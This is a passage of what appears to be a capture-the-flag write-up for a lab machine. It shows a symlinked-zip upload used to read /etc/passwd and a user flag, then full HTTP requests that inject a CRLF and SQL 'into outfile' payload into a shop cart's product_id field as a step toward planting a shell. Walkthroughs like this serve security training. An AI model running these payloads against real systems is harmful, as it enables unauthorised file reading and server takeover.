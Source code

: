 ```
echo "<base64encodedmessage>" | base64 -d ; echo
```

And I watched the /etc/passwd message. Here I found a user called "rektsu" So, I did the same process to see the user flag. Instead of put the /etc/passwd path I did this:

1- Use ln -s
```
ln -s /home/rektsu/user.txt user.pdf
```
2- Put the file on a zip
```
zip --symlinks zip1.zip user.pdf
```
3- Upload the file, decode the response and read the flag.


The next step, to get acces to the machine is exploit a vulnerable input on the cart functionality, the "id" is vulnerable to a CRLF injection combined with a mysql query
[https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

```
POST /shop/index.php?page=cart HTTP/1.1

Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: [http://10.10.11.229](http://10.10.11.229)
Connection: close
Referer: [http://10.10.11.229/shop/index.php?page=product&id=1](http://10.10.11.229/shop/index.php?page=product&id=1)
Cookie: PHPSESSID=4c5ka2ksmc77g5j5o8tmmf0e1p
Upgrade-Insecure-Requests: 1

quantity=1&product_id=
```


The way to exploit this is using a POC watching if we have permissions to write, If we have success on the path that we chose, the next step is trigger the shell on file that we uploaded.
If we get a 302 response it means that we have success otherwise we will be redirected to the cart site.

SUCESSFULL TEST INPUT

```

POST /shop/index.php?page=cart HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: [http://10.10.11.229](http://10.10.11.229)
Connection: close
Referer: [http://10.10.11.229/shop/index.php?page=product&id=1](http://10.10.11.229/shop/index.php?page=product&id=1)
Cookie: PHPSESSID=4c5ka2ksmc77g5j5o8tmmf0e1p
Upgrade-Insecure-Requests: 1

quantity=1&product_id=%0a'%3bselect+version@@++into+outfile+'/var/lib/mysql/version.php'%3b --1
```